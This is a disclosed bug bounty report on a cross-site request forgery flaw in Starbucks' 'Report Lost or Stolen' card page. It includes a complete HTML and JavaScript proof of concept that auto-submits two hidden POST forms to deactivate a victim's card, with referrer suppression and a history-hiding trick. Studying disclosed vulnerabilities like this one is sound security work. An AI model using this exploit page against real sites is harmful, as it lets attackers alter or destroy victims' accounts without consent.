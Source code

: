 # CSRF in Report Lost or Stolen Page https://www.starbucks.com/account/card

## Report Details
- **Report ID**: 233099
- **URL**: https://hackerone.com/reports/233099
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-05-30T11:11:49.863Z
- **Disclosed**: 2017-09-25T20:55:39.123Z

## Reporter
- **Username**: darwinks
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hi,
When a user registers with an option to get instant digital card, a card will be registered against that users name.
There is  CSRF in card removal process when user wants to report cards as stolen or lost.
There is no CSRF protection on the post requests when https://www.starbucks.com/account/card/loststolen or https://www.starbucks.com/account/card/loststolenzerobalance page is called.

When (https://www.starbucks.com/account/card)  is visited by user to **Report Lost or Stolen card**{*request  1*}, user has to click on Deactivate card. Then user will be asked to confirm the action {*request 2*}. So, in short after these 2 POST requests,for which there is no CSRF protection, card will be removed.
I tried to build a PoC and it worked. 
>User will have to accepts pop-up from starbucks.com. I am sure user will do that since it is a legitimate site.

Please find a working PoC code.
```
<html>
<head>
   <meta name="referrer" content="no-referrer"/>
</head>
<script language="JavaScript">
function abc()
{
window.open("https://www.starbucks.com/account/card/loststolen");
}
</script>
<body onload="abc();">
  <script>history.pushState('', '', '/')</script>
    <form id="form1" target="_bank" action="https://www.starbucks.com/account/card/loststolenzerobalance" method="POST">
      <input type="submit" value="Submit request" />
    </form>
<form id="form2" target="_bank" action="https://www.starbucks.com/account/card/loststolenzerobalance" method="POST">
      <input type="submit" value="Submit request" />
    </form>
<script>
window.setTimeout( function () { document.forms.form1.submit()},1500);
window.setTimeout( function () { document.forms.form2.submit()},2000);  

</script>
  </body>
</html>
```
Time taken to open both form is lenient for demonstration purpose but I guess time as well as stealthiness  can be tuned.
Also find video PoC. 

## Attachments
No attachments
